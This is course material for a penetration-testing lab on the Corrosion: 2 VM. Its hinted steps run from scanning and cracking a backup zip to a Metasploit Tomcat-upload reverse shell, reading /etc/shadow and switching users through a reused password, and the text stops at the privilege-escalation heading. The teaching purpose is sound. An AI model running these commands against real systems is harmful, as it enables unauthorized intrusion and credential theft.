


# W1D5 - Penetration Testing: From Reconnaissance to Root

Today you'll learn the fundamentals of penetration testing by working through a complete attack chain on a vulnerable virtual machine (VM).
You'll use real tools and techniques that both security professionals and attackers use in the wild.

**IMPORTANT LEGAL NOTICE**: The techniques you'll learn today are powerful and potentially illegal if used without authorization. You must:
- Only practice on systems you own or have explicit written permission to test
- Never use these techniques on production systems without proper authorization
- Understand that unauthorized access to computer systems is a serious crime

This lab is based on the **[Corrosion: 2](https://www.vulnhub.com/entry/corrosion-2,745/)** VM from [VulnHub](https://www.vulnhub.com/), which is specifically designed for educational penetration testing.

## Table of Contents

- [Content & Learning Objectives](#content--learning-objectives)
    - [1️⃣ Understanding Attack Frameworks](#-understanding-attack-frameworks)
    - [2️⃣ Reconnaissance & Network Discovery](#-reconnaissance--network-discovery)
    - [3️⃣ Web Application Enumeration](#-web-application-enumeration)
    - [4️⃣ Exploitation with Metasploit](#-exploitation-with-metasploit)
    - [5️⃣ Privilege Escalation Techniques](#-privilege-escalation-techniques)
    - [6️⃣ Post-Exploitation & Persistence (Bonus)](#-post-exploitation--persistence-bonus)
- [Lab Setup](#lab-setup)
- [Understanding the stages of a cyber attack](#understanding-the-stages-of-a-cyber-attack)
    - [Cyber Kill Chain](#cyber-kill-chain)
    - [MITRE ATT&CK](#mitre-attck)
    - [Exercise 0.1: ATT&CK](#exercise--attck)
    - [Vocabulary](#vocabulary)
- [Phase 1: Reconnaissance - Mapping the Network](#phase--reconnaissance---mapping-the-network)
    - [Network Discovery](#network-discovery)
    - [About Exercises](#about-exercises)
    - [Exercise 1.1: Find the Target](#exercise--find-the-target)
- [Phase 2: Enumeration - Digging Deeper](#phase--enumeration---digging-deeper)
    - [Exercise 2.1: Examine web servers](#exercise--examine-web-servers)
    - [Web Directory Enumeration](#web-directory-enumeration)
    - [Exercise 2.2: Web Enumeration](#exercise--web-enumeration)
    - [Password Cracking](#password-cracking)
    - [Exercise 2.3: Crack the Archive](#exercise--crack-the-archive)
- [Phase 3: Initial Exploitation](#phase--initial-exploitation)
    - [Metasploit Framework](#metasploit-framework)
        - [Basic Usage](#basic-usage)
        - [Finding Exploits](#finding-exploits)
    - [Exercise 3.1: Web Application Exploit](#exercise--web-application-exploit)
    - [Post-Exploitation](#post-exploitation)
    - [Exercise 3.2: Explore the System](#exercise--explore-the-system)
- [Phase 4: Privilege Escalation](#phase--privilege-escalation)
    - [Common Privilege Escalation Vectors](#common-privilege-escalation-vectors)
    - [Exercise 4.1: Find Privilege Escalation Vectors](#exercise--find-privilege-escalation-vectors)
    - [Exercise 4.2: Escalate to Root](#exercise--escalate-to-root)
    - [Exercise 4.3: Capture the Flag](#exercise--capture-the-flag)
    - [Additional Resources](#additional-resources)
- [Bonus:&nbsp;&nbsp;Phase 5: Post-Exploitation and Persistence](#bonusnbspnbspphase--post-exploitation-and-persistence)
    - [Maintaining Persistent Access](#maintaining-persistent-access)
    - [Covering Your Tracks](#covering-your-tracks)
    - [Data Exfiltration](#data-exfiltration)
    - [Exercise 5.1: Create Persistence (Optional)](#exercise--create-persistence-optional)
- [Summary and Lessons Learned](#summary-and-lessons-learned)
    - [Attack Chain Analysis](#attack-chain-analysis)
    - [Key Security Failures](#key-security-failures)

## Content & Learning Objectives

### 1️⃣ Understanding Attack Frameworks

You'll learn systematic approaches to analyzing and executing cyber attacks using industry-standard frameworks.

> **Learning Objectives**
> - Understand the Cyber Kill Chain model and its phases
> - Navigate and apply the MITRE ATT&CK framework
> - Map attack techniques to defensive strategies
> - Recognize attack patterns from both offensive and defensive perspectives

### 2️⃣ Reconnaissance & Network Discovery

You'll master the initial phase of penetration testing by gathering intelligence on target systems without triggering alarms.

> **Learning Objectives**
> - Use network discovery tools (netdiscover, nmap, arp-scan) effectively
> - Perform service enumeration and version detection
> - Identify potential attack vectors from network scans
> - Understand the principle of "living off the land"

### 3️⃣ Web Application Enumeration

You'll learn advanced techniques for discovering hidden resources and vulnerabilities in web applications.

> **Learning Objectives**
> - Perform directory and file brute-forcing with tools like dirb and gobuster
> - Identify and exploit backup files and configuration leaks
> - Crack password-protected archives using dictionary attacks
> - Extract sensitive information from discovered files

### 4️⃣ Exploitation with Metasploit

You'll gain hands-on experience with the most widely-used penetration testing framework.

> **Learning Objectives**
> - Navigate and use Metasploit Console effectively
> - Configure and execute exploits against real vulnerabilities
> - Understand payload types and reverse shell techniques
> - Exploit web application management interfaces (Tomcat)

### 5️⃣ Privilege Escalation Techniques

You'll discover multiple methods attackers use to elevate their access from low-privilege users to system administrators.

> **Learning Objectives**
> - Identify privilege escalation vectors through enumeration
> - Exploit SUID/SGID binaries for unauthorized file access
> - Perform password hash extraction and offline cracking
> - Execute library hijacking attacks on misconfigured systems
> - Understand sudo misconfigurations and exploitation

### 6️⃣ Post-Exploitation & Persistence (Bonus)

You'll explore techniques for maintaining long-term access and avoiding detection.

> **Learning Objectives**
> - Implement persistence mechanisms (SSH keys, user accounts, cron jobs)
> - Understand anti-forensics and log manipulation techniques
> - Learn data exfiltration methods and covert channels
> - Apply defense-in-depth principles from an attacker's perspective

## Lab Setup

<!-- FIXME: proper lab setup instructions -->

For the lab, you will get access to 2 VMs provisioned for you in AWS:
1. You will get ssh access to your "attack" host with Kali Linux.
   This host should has all the tools you need installed and you will execute your attack from here.
   Feel free to install any additional dependencies as needed.
2. The "target" host you will be attacking is another Linux host based on the [Corrosion: 2 VM](https://www.vulnhub.com/entry/corrosion-2,745/).
   This VM is not accessible from the internet and any access to it is only possible from the "attack" host.
3. Both hosts are on the same private network with firewall configured to allow any traffic within the network.

You are allowed to configure your Kali Linux host and attack the target host but:
- **Do not attempt to hack** the AWS infrastructure where they are hosted.
- Do not open unprotected access to the hosts/network from the internet.

## Understanding the stages of a cyber attack

Before we begin the practical exercises, let's introduce two models that can help us think about cyber attacks from a high-level perspective: the Cyber Kill Chain and the MITRE ATT&CK framework.

### Cyber Kill Chain
The Cyber Kill Chain is a model that breaks down a typical cyberattack into stages:

<a href="./resources/kill-chain.webp"></a><br><sub>Source: [storware.eu](https://storware.eu/blog/cyber-kill-chain/)</sub>

The model is aimed at helping security teams identify in-progress cyberattacks and stop them before they do damage.
It's not perfect, e.g., it doesn't account well for insider threats, but it should give you an initial idea of what activities attackers typically need to do.

- The reconnaissance phase is easy to underestimate but it's what offers an adversary footholds for initial access. Systems often expose information about themselves by advertising backend services and versions through HTTP headers, or providing useful information in error messages. Organization inadvertenly leak information in their LinkedIn profiles or public repositories, or by falling for phishing attacks. These and many more ways to gather information can be misused.
- The gathered information is used to identify weaknesses and entrypoints which are exploited to get initial foothold in the target system.
- After the initial access, attackers usually try to gain persistence in the system and establish a channel for future command and control.
- Once the attacker has presence in the system and establishes communication channel, they can execute their primary objective like exfiltration of sensitive data, ransomware, resource misuse for further attacks, etc.

### MITRE ATT&CK
<a href="https://attack.mitre.org/"></a>

[ATT&CK](https://attack.mitre.org/) is a another model, developed by MITRE, that attempts to systematically categorize adversary behavior.
The [main components](https://attack.mitre.org/resources/) are "Tactics", "Techniques", and "Procedures", also known as "TTPs":

- Tactics represent "why" or the reason an adversary is performing an action
- Techniques represent "how" adversaries achieve tactical goals by performing an action.
- Procedures represent specific implementation or in-the-wild use the adversary uses for techniques.

The list of tactics covers the activities an adversary may need to perform in more detail: **Reconnaissance, Resource Development, Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Collection, Command and Control, Exfiltration, and Impact**.

### Exercise 0.1: ATT&CK

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪

Looking through the **[ATT&CK matrix](https://attack.mitre.org/)** should give you both an inspiration what actions you can take as an attacker, and what you potentially need to protect against as a defender. <br>**Spend some time reading through the matrix.**

Later, we'll attack a server that hosts a couple of web applications, is accessible to developers through ssh, and contains confidential information accessible by the root user. **What techniques may be relevant to attack this server?**

### Vocabulary

<details>
<summary>Vocabulary: Penetration Testing Terms</summary><blockquote>

- **Command and Control**: communication with compromised systems to control them, usually through one or more covert channels; can be used, e.g., to download additional malware, create botnets or exfiltrate data
- **Enumeration**: Detailed probing of discovered services
- **Exploitation**: Taking advantage of vulnerabilities to gain access
- **Privilege Escalation**: Elevating access rights after initial compromise, or beyond the intended permissions granted to an actor
- **Persistence**: Maintaining access to a compromised system
- **Lateral Movement**: Moving between systems in a network
- **Exfiltration**: Stealing data from compromised systems
- **Living off the land**: Using legitimate tools already present on the system to avoid raising
suspicion
- **Kali Linux**: A Linux distribution designed for penetration testing and security auditing. It is based on Debian and includes a large collection of tools for network security and penetration testing.
</blockquote></details>


## Phase 1: Reconnaissance - Mapping the Network

The first phase of any penetration test is reconnaissance. Your goal is to gather as much information as possible about the target without directly interacting with it in a way that might trigger alarms.

### Network Discovery

Let's start by finding our target on the network. You have several tools at your disposal.

**`netdiscover`** is an active/passive ARP reconnaissance tool primarily used to find live hosts on a local network segment. It works by sending ARP requests and listening for responses, making it particularly useful for discovering hosts that might not respond to ping. Basic usage: `sudo netdiscover -r 192.168.1.0/24` scans the specified range, while `sudo netdiscover -p` runs in passive mode, only listening without sending packets.

[**`nmap`**](https://nmap.org/book/man-briefoptions.html) (Network Mapper) is the Swiss Army knife of network discovery and security auditing. While netdiscover focuses on network Layer 2 (ARP), nmap operates at Layer 3 and above, offering various scan types: ping sweeps (`nmap -sn 192.168.1.0/24`), TCP SYN scans (`nmap -sS target`), UDP scans (`nmap -sU target`), version detection (`nmap -sV target`), and OS fingerprinting (`nmap -O target`). Nmap's scripting engine (NSE) extends its capabilities with hundreds of scripts for vulnerability detection and enumeration.

> Note: Even port scanning can be considered unauthorized access under computer crime laws in many jurisdictions, so never scan networks or systems without explicit written permission from the owner.

Other useful discovery tools include:
- **arp-scan**: Fast and simple ARP scanner (`arp-scan -l` for local network)
- **masscan**: Extremely fast port scanner, useful for large networks
- **fping**: Parallel ping sweep tool for quick host discovery
- **nbtscan**: Scans for NetBIOS name information on Windows networks


<details>
<summary>Background: How Network Discovery Works</summary><blockquote>

Network discovery tools like `netdiscover` use ARP (Address Resolution Protocol) requests to find live hosts. ARP operates at Layer 2 of the OSI model and is used to map IP addresses to MAC addresses. Because ARP is essential for network communication, these requests typically don't trigger security alerts.

Other discovery methods include:
- **ICMP ping sweeps**: Sending ICMP echo requests
- **TCP SYN scanning**: Sending TCP SYN packets to common ports
- **UDP scanning**: Sending UDP packets and analyzing responses

</blockquote></details>

### About Exercises
Most exercises are designed to give you an opportunity to figure out the solution yourself. If you get stuck, use the hints in the order they are provided, but **try to solve the problem without hints first** - you should have enough information to complete exercises in the accompanying text.
The target host is based on VM for which public walkthroughs are available. Similarly, please do not read them before completing the exercises.

On the other hand, the exercises increase in complexity as you progress through the lab. If you find yourself stuck, especially in the early exercises, please do use the hints or ask for help, to make sure you have enough time to complete the lab.

The exercises are also designed to be completed in the order they are provided - you will probably need something from the previous exercises to complete the next one.

### Exercise 1.1: Find the Target

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪

Start by connecting to your attack host via ssh.
<!-- FIXME: add correct ssh command -->
```bash
ssh kali@<your-attack-host-ip>
```
Once you're connected, **use the tools above to find the target VM's IP address.** Gather also more information about open ports and running services there.

Notes on command execution:
- Not all tools you want to use may be installed by default. Start by running `sudo apt-get update` to update package index files. Tools can then be installed by either running `sudo apt install TOOL`, or simply try to execute it and Kali linux will offer you installation.
- Some commands may require root privileges - if they don't work, try executing them with `sudo`.

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

The target VM is on the same network as the attack host. You can find your local IP address with `ip addr show` or `hostname -I`. You can limit your scan to IP addresses in the same /16 IP range.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

To scan the network for hosts, you can use `netdiscover`. It should find the target VM even without any additional flags but you can speed it up by limiting the scan to the IP range of the local network:

```bash
sudo netdiscover -r <your-local-ip>/16
```

<!-- FIXME: add netdiscover sample output -->

The `/16` means that the scan will include all IP addresses where the first 16 bits of the IP address are the same as your given IP address.

If netdiscover isn't working, you can try alternative methods:

```bash
# ARP scan
sudo arp-scan -l

# Nmap ping sweep
nmap -sn <your-local-ip>/16
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 3</summary>

`netdiscover` will likely give you multiple discovered IP addresses. You need to gather more information to identify the target VM. Use `nmap` to scan the target VM for open ports and services.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 4</summary>

Try the following command to scan an IP for open ports and services (-sV will probe open ports to detect running services including their versions):

```bash
nmap -sV <target-ip>
```

The target VM should have two `http` and one `ssh` services running.

</details>

If you've found the target VM IP and services running on it, congratulations, you've completed the first phase of the attack!

<details>
<summary>Background: Understanding Nmap Scan Types</summary><blockquote>

Nmap offers various scan types:
- **-sS (SYN scan)**: Stealthy, doesn't complete TCP handshake
- **-sT (Connect scan)**: Complete TCP connection, more detectable
- **-sU (UDP scan)**: Scans UDP ports, slower than TCP
- **-sV (Version scan)**: Identifies service versions
- **-sC (Script scan)**: Runs default NSE scripts
- **-A (Aggressive)**: Enables OS detection, version scanning, script scanning

</blockquote></details>


## Phase 2: Enumeration - Digging Deeper

Now that you've found your target, it's time to enumerate the services more thoroughly. This phase involves detailed probing to find potential attack vectors.

### Exercise 2.1: Examine web servers

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵⚪⚪⚪⚪

You've found two web servers running on the target VM. Inspect them in your browser.

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

Since the target VM is not accessible directly, you need to forward the connection through your attack host. You can do this with `ssh -L`.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

The exact command to use is

```bash
ssh -L 8080:<target-local-ip>:8080 -L 8081:<target-local-ip>:80 kali@<attack-host-public-ip>
```

If you open http://localhost:8080 and http://localhost:8081 in your browser while the ssh connection is active, you should see the web servers running on the target VM: a Tomcat and an Apache2 server. Both are straightforward pages with nothing suspicious on them.
</details>


### Web Directory Enumeration

Web servers often expose sensitive files and directories that can provide valuable information or direct access to the system. Directory brute-forcing is a common technique to discover these hidden resources.

**`dirb`** is a web content scanner that uses a wordlist to find existing (and potentially hidden) web objects. It works by launching a dictionary-based attack against a web server and analyzing the responses. Basic usage:

```bash
# use the default wordlist
dirb http://target.com

# use a custom wordlist
dirb http://target.com /path/to/wordlist

# test files with a specific extension
dirb http://target.com -X .php,.zip
```

**`gobuster`** is a similar but faster tool written in Go. It supports directory/file brute-forcing (`gobuster dir`), DNS subdomain brute-forcing (`gobuster dns`), and virtual host brute-forcing (`gobuster vhost`). Example: `gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt`.

**`wfuzz`** is a more flexible web fuzzer that can brute-force parameters, directories, files, and more. It's particularly useful when you need to fuzz multiple injection points simultaneously.

<details>
<summary><b>Background: Common findings from directory enumeration</b></summary><blockquote>

- Backup files: `.bak`, `.zip`, `.tar.gz`, `.sql` files containing source code, databases, or backups
- Configuration files: `config.php`, `web.config`, `.env` files with credentials
- Version control: `.git`, `.svn` directories exposing source code history
- Admin panels: `/admin`, `/manager`, `/phpmyadmin` interfaces
- API documentation: `/api/docs`, `/swagger` endpoints revealing API structure

Tools like `dirb` and `gobuster` use wordlists to guess common directory and file names.
</blockquote></details>

### Exercise 2.2: Web Enumeration

> **Difficulty**: 🔴🔴🔴⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪

Now it's time to explore the web services you discovered. **Use directory enumeration tools to find hidden files and directories on both web servers (ports 80 and 8080).**

Remember that different web servers and applications use different naming conventions and file extensions. Be thorough in your enumeration!

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

Start with basic directory enumeration on both ports. Try using `dirb` with its default wordlist first:

```bash
TARGET_IP=<target-ip>

dirb http://$TARGET_IP
dirb http://$TARGET_IP:8080
```

If the wordlists are not available, on your Kali Linux VM, you may need to [install](https://www.kali.org/tools/wordlists/) them first:

```bash
sudo apt install wordlists
```

Pay attention to any non-standard responses or interesting directory names.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

For the Tomcat server (port 8080), try looking for common backup file extensions. You can use the `-X` flag with dirb to specify extensions:

```bash
dirb http://$TARGET_IP:8080 -X .zip,.bak,.old,.backup
```

Backup files are a common source of sensitive information!
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 3</summary>

Focus on the Tomcat server (port 8080). There's a backup file that can be downloaded. If dirb isn't finding it with the default wordlist, try checking for common filenames manually:

```bash
wget http://$TARGET_IP:8080/backup.zip
# or curl -v http://$TARGET_IP:8080/backup.zip > backup.zip
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 4</summary>

Once you find and download the backup file, try to extract it:

```bash
unzip backup.zip
```

If it asks for a password, you'll need to crack it. Tools like `fcrackzip` or `john` can help with this.
</details>

### Password Cracking

Password-protected archives are common, but weak passwords can often be cracked using dictionary attacks or brute force.

**`fcrackzip`** is a fast password cracker for zip archives. It supports both dictionary attacks (`-D -p WORDLIST`) and brute force (`-b`). The `-u` flag uses unzip to verify the password, making it more reliable.

**`john`** ([John the Ripper](https://github.com/openwall/john?tab=readme-ov-file#how-to-use)) is a versatile password cracker supporting many formats. For zip files, you first extract the hash using `zip2john`, then crack it with john.

**`hashcat`** is a powerful GPU-accelerated password cracker. While more complex to use, it's significantly faster for large-scale cracking operations.

Cracking tools offer various brute-force methods including dictionary attacks, trying all possible combinations of characters, hybrid attacks combining both, or even more sophisticated algorithms. **Some wordlists are [available for install](https://www.kali.org/tools/wordlists/) in your Kali Linux VM  - check them out!**

### Exercise 2.3: Crack the Archive

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪

If you found a password-protected archive, **crack the password and extract its contents,** and then **examine the files until you find something that will help you move on to the next phase** of the attack (initial exploitation).

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

Use `fcrackzip` with a dictionary attack. The rockyou wordlist is a common choice for password cracking:

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
```

This uses dictionary mode (-D), the specified wordlist (-p), and unzip verification (-u).
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

If rockyou.txt isn't in the default location, you might need to install and/or extract it first:

```bash
sudo apt install wordlists
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Or find it in another location:
```bash
find /usr -name "rockyou.txt*" 2>/dev/null
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 3</summary>

Once fcrackzip finds the password (it should be `@administrator_hi5`), extract the archive:

```bash
unzip backup.zip
# Enter the password when prompted
```

Examine all files in the archive carefully - configuration files often contain credentials!
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 4</summary>

You should find credentials for the Tomcat admin user. If you still cannot find them, use the following:

```bash
egrep -r 'username="(admin|manager)"' .
```

These credentials provide access to the Tomcat manager, which can be used to deploy applications!
</details>

<details>
<summary>Optional: Manually testing credentials</summary><blockquote>

Apache Tomcat is a popular Java servlet container that often runs web applications. The manager interface (`/manager/html`) allows administrators to deploy, undeploy, start, and stop applications.  You can examine the interface yourself in the browser. First, forward connection through your attack host:

```bash
ssh -L 8080:<target-local-ip>:8080 kali@<attack-host-public-ip>
```

Then, open the manager interface in your browser: http://localhost:8080/manager/html . Your discovered credentials should work.
</blockquote></details>


## Phase 3: Initial Exploitation

With credentials in hand, it's time to gain initial access to the system. This phase involves exploiting the vulnerabilities and/or credentials you've discovered to establish a foothold.

### Metasploit Framework
Before we get down to work, let's introduce the tool you will use for exploitation.

**Metasploit** is a powerful and widely used penetration testing platform that provides a comprehensive environment for developing, testing, and executing exploits against target systems.

There are several key components in Metasploit:

* **`msfconsole`** - The primary command-line interface; this is where you'll spend most of your time.
* **[modules](https://docs.metasploit.com/docs/modules.html)** - The building blocks of Metasploit, organized into several categories:
    - **Exploits** (~2500+ available): Used to leverage vulnerabilities that allow the framework to execute arbitrary code. The arbitrary code that is executed is referred to as the _payload_.
    - **Payloads**: Arbitrary code (shellcode) that runs as the result of an exploit succeeding. It typically creates a Metasploit session, but may instead execute code such as adding user accounts.
    - **Auxiliary**: Scanners, fuzzers, and other supporting tools
    - **Post**: Post-exploitation modules for privilege escalation, persistence, and data gathering
    - **Encoders**: Tools to encode payloads to evade detection
    - **Nops**: No-operation code for buffer overflow exploits
* **Meterpreter** - Metasploit's flagship payload, providing an advanced command shell with features like:
    - In-memory execution (leaves minimal forensic evidence)
    - Encrypted communications
    - Pivoting capabilities for lateral movement

Together, these components allow you to execute many tasks from a single interface, such as:

* Vulnerability Scanning - port scanning and service enumeration, vulnerability detection, integration with vulnerability databases
* Exploitation - automated exploit selection and configuration, custom exploit development
* Payload Generation - creating standalone executables, generating web shells, building custom payloads with msfvenom
* Post-Exploitation - privilege escalation, credential harvesting, network pivoting, data exfiltration
* Evasion Techniques - anti-virus evasion, IDS/IPS bypass methods, obfuscation and encoding

#### Basic Usage

Run `msfconsole` to start the command-line interface.
The interface is stateful, meaning it remembers your context and settings between commands:

* When you `use` a module, you enter that module's context - think of it like changing directories in a file system. Your prompt changes to reflect this (e.g., `msf6 exploit(windows/smb/ms17_010_eternalblue) >`)
* A module can have a number of options. `show options` gives you their list.
* You can set option values for the currently activated module with `set`; they persist until you change them or exit. Global options that persist across modules can be set with `setg` (set global).
* You can `back` out to the main console or `use` a different module, but if you return to the same module later with `use`, you'll need to reconfigure it - Metasploit doesn't save module settings between uses.
* You can also use `unset` to clear a specific option

```bash
# Start Metasploit
msfconsole

# Search for modules
search apache

# Use a module
use exploit/windows/smb/ms17_010_eternalblue

# View options of the currently activated module
show options
info

# Set required options
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50

# Execute the activated exploit module
exploit
# or
run
```

You can read more about Metasploit in the **[documentation](https://docs.metasploit.com)**, or deep dive in **[Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/)**.


#### Finding Exploits

You can discover more with `search`, e.g.

```bash
search type:exploit platform:windows
search type:auxiliary name:apache scanner
```
Tip: Versions matter - minor version differences can determine if an exploit works.

You can also search for known exploits in the [Exploit-DB](https://www.exploit-db.com/). This is also available on Kali Linux with tool `searchsploit`:

```bash
$ searchsploit -t oracle windows
--------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                         |  Path
--------------------------------------------------------------------------------------- ---------------------------------
Oracle 10g (Windows x86) - 'PROCESS_DUP_HANDLE' Local Privilege Escalation             | windows_x86/local/3451.c
Oracle 9i XDB (Windows x86) - FTP PASS Overflow (Metasploit)                           | windows_x86/remote/16731.rb
Oracle 9i XDB (Windows x86) - FTP UNLOCK Overflow (Metasploit)                         | windows_x86/remote/16714.rb
```

You may also find these auxiliary modules helpful:
* `auxiliary/scanner/portscan/tcp` - TCP port scanner (although nmap is often more reliable and faster )
* `auxiliary/scanner/http/http_version`, `auxiliary/scanner/http/http_header`, `auxiliary/scanner/http/title` - get information about HTTP servers
* `auxiliary/scanner/ssh/ssh_version` - get information about SSH servers
* `auxiliary/scanner/http/tomcat_mgr_login` - attemps to login to Tomcat using commonly used credentials


### Exercise 3.1: Web Application Exploit

> **Difficulty**: 🔴🔴🔴🔴⚪
> **Importance**: 🔵🔵🔵🔵🔵

We previously discovered a Tomcat instance running on server 8080 and the admin/manager credentials.

Apache Tomcat is a popular Java servlet container that often runs web applications. The credentials are to the manager interface (`/manager/html`) which allows administrators to deploy, undeploy, start, and stop applications. This powerful functionality becomes a serious vulnerability when accessed by attackers.

So we know we can deploy custom code. What we really want is to execute arbitrary commands on the target; having shell access would be ideal. Doing this by hand would be quite tedious, including crafting Java code, uploading it, executing it, and establishing a reverse shell. In this exercise, use Metasploit to automate this process.

Your task is to **Use the information you've gathered so far to start a shell session on the target.**

<details style="margin: 10px;">
<summary>Vocabulary: <i>reverse shell</i></summary>

Sometimes it's possible to get a shell on your target directly. But very often you cannot establish the needed connection - e.g., if you don't have a direct network connection to the target, or if the firewall blocks the connection.

To work around this issue, you can instead have your remotely executed call connect _back to you_. The shell is established on the target machine, but you can control it remotely through this connection. This is called a **reverse shell**.
</details>


<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

[Install](https://www.kali.org/tools/metasploit-framework/#packages-and-binaries) (if needed) and launch Metasploit on your attack host:

```bash
msfconsole
```


Search for Tomcat manager-related exploits (inside msfconsole):
```
search tomcat manager
```

</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

The exploit you need is `tomcat_mgr_upload`.

```
use exploit/multi/http/tomcat_mgr_upload
show options
```

(still inside msfconsole)
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 3</summary>

Configure the exploit module:

```
set RHOSTS <target-ip>
set RPORT 8080
set HttpUsername admin
set HttpPassword <discovered-password>
```

You can also check that the default value of LHOST is your local IP. This is fine because your attack host is reachable from the target host with this IP to establish a reverse shell.
</details>


<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 4</summary>

Run the exploit:

```bash
exploit
```

If successful, you should get a Meterpreter session. You can interact with it using commands like:
- `getuid` - Check current user
- `sysinfo` - Get system information
- `shell` - **Drop to a system shell**
- `help` - List available commands
</details>

<details>
<summary>Background: How the Tomcat exploit works</summary><blockquote>

Apache Tomcat's manager application has several dangerous features:
1. **WAR file deployment**: Administrators can upload WAR files that get automatically deployed
2. **Code execution**: WAR files can contain JSP files that execute server-side code
3. **Privileged context**: Applications run with Tomcat's privileges

Metasploit's `tomcat_mgr_upload` module automates this attack by:
1. Authenticating to the manager interface
2. Uploading a malicious WAR containing a reverse shell
3. Triggering the payload to get a Meterpreter session
</blockquote></details>


### Post-Exploitation

Once you have initial access, the post-exploitation phase begins. This can involve:
* **Information Gathering** (enumerate users and their privileges, search for sensitive files and credentials, map the internal network, identify installed software and services)
* **Maintaining Access** (establish persistence mechanisms, create backdoor accounts, set up reverse shells, hide your presence)
* **Lateral Movement** (access other user accounts, pivot to other systems, escalate privileges, expand your foothold)

### Exercise 3.2: Explore the System

> **Difficulty**: 🔴🔴⚪⚪⚪
> **Importance**: 🔵🔵🔵🔵⚪

**Explore the compromised system to gather information and find potential privilege escalation paths.**

Tip: You can still find the information from the reconnaissance phase useful!

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 1</summary>

From your Meterpreter session, check your current privileges:

```
getuid
```

Then get a shell to explore more:
```
shell
```

Basic enumeration commands:
```bash
whoami
id
pwd
ls -la /home
cat /etc/passwd
cat /etc/shadow # contains user password hashes
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 2</summary>

Look for other users on the system. Check the `/home` directory:

```bash
ls -la /home/
```

You should find at least two users. Explore their home directories for interesting files.
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 3</summary>

Try to switch to other users using passwords you've already found. Password reuse is common 😈.

```bash
su USER
```
</details>

<details style="border: 1px solid #ccc; padding: 5px; margin: 5px;">
<summary>Hint 4</summary>

User `jaye` has the same password as the Tomcat admin user!

```bash
su jaye
# Enter the password when prompted
whoami
```

If it works, explore what this user has access to!

<!-- FIXME: add Easter egg -->

```bash
ls -la /home/jaye
```
</details>


## Phase 4: Privilege Escalation

Initial access rarely provides full system control. Privilege escalation is the process of elevating your access rights to gain administrative (root) privileges.

### Common Privilege Escalation Vectors

